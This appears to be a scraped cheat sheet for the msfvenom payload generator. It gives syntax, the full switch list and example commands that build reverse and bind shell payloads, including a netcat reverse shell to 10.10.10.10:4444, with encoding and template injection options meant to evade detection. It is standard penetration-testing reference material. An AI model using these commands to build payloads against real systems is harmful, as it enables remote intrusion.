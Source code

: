 #### Syntax:
`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP> LPORT=<PORT>`



#### Examples:
**`# NC Reverse Shell:`**
`msfvenom -p cmd/unix/reverse_netcat lhost=10.10.10.10 lport=4444 R`


**`# Example:`**
`msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -f python`

`msfvenom --platform linux -p linux/x86/shell/reverse_tcp LHOST=w.z.y.z LPORT=443  -b  "\x00" -f elf -o file.bin`



#### Switches:

```
-l, --list <type> :
    List all modules for [type].
    Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all


-p, --payload <payload> :
    Payload to use (--list payloads to list, --list-options for arguments). 
    Specify '-' or STDIN for custom
    
    --list-options :
        List --payload <value>'s standard, advanced and evasion options


-f, --format <format> :
    Output format (use --list formats to list)


-e, --encoder <encoder> :
    The encoder to use (use --list encoders to list)
    
    --service-name <value> :
        The service name to use when generating a service binary
    
    --sec-name <value> :
        The new section name to use when generating large Windows binaries. 
        Default: random 4-character alpha string
    
    --smallest: 
        Generate the smallest possible payload using all available encoders
    
    --encrypt <value> :
        The type of encryption or encoding to apply to the shellcode
        (use --list encrypt to list)
    
    --encrypt-key <value> :
        A key to be used for --encrypt
    
    --encrypt-iv <value> :
        An initialization vector for --encrypt


-a, --arch <arch> :
    The architecture to use for --payload and --encoders (use --list archs to list)
    
    --platform <platform> :
        The platform for --payload (use --list platforms to list)


-o, --out <path> :
    Save the payload to a file


-b, --bad-chars <list> :
    Characters to avoid example: '\x00\xff'


-n, --nopsled <length> :
    Prepend a nopsled of [length] size on to the payload
    
    --pad-nops :
        Use nopsled size specified by -n <length> as the total payload size, 
        auto-prepending a nopsled of quantity (nops minus payload length)


-s, --space <length> :
    The maximum size of the resulting payload
    
    --encoder-space <length> :
        The maximum size of the encoded payload (defaults to the -s value)


-i, --iterations <count> :
    The number of times to encode the payload


-c, --add-code <path> :
    Specify an additional win32 shellcode file to include


-x, --template <path> :
    Specify a custom executable file to use as a template


-k, --keep :
    Preserve the --template behaviour and inject the payload as a new thread


-v, --var-name <value> :
    Specify a custom variable name to use for certain output formats


-t, --timeout <second> :
    The number of seconds to wait when reading the payload from STDIN 
    (default 30, 0 to disable)


-h, --help:
    Show this message
```


* `lhost = local host`
* `lport = local port`
* `R = export payload in raw format`



##### Listing:
`msfvenom -l #Payloads`
`msfvenom -l encoders #encoders`


